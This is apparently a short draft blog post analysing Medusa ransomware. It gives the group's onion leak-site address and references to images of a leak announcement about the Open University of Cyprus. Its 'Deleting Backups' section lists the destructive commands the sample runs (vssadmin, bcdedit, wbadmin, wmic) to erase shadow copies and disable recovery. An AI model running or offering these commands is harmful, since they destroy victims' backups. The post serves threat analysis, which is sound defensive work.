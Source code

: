 ```yaml
---
draft: true
---
```


Medusa Blog - Onion Link: `medusaxko7jxtrojdkxo66j7ck4q5tgktf7uqsqyfry4ebnxlcbkccyd.onion`



Leakage of files announcement 06/04/2023:

<img src="/home/ishtar/github/xmpf.github.io/content/posts/medusa-ransomware/assets/image-20230429213743557.png" alt="image-20230429213743557" style="zoom: 80%;" />



Example document provided as proof:

<img src="/home/ishtar/github/xmpf.github.io/content/posts/medusa-ransomware/assets/image-20230429215020922.png" alt="image-20230429215020922" style="zoom:50%;" />

Facebook post from the official account of Open University of Cyprus: 18/04/2023

<img src="/home/ishtar/github/xmpf.github.io/content/posts/medusa-ransomware/assets/image-20230429215649815.png" alt="image-20230429215649815" style="zoom:80%;" />





# Sample Analysis



SHA-256:



## Deleting Backups



```
vssadmin.exe Delete Shadows /All /Quiet
bcdedit.exe /set {default} recoveryenabled No
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
wbadmin DELETE SYSTEMSTATEBACKUP
wbadmin DELETE SYSTEMSTATEBACKUP -deleteOldest
wmic.exe SHADOWCOPY /nointeractive
```





## References



https://blog.cyble.com/2023/03/15/unmasking-medusalocker-ransomware/

https://www.cisa.gov/news-events/cybersecurity-advisories/aa22-181a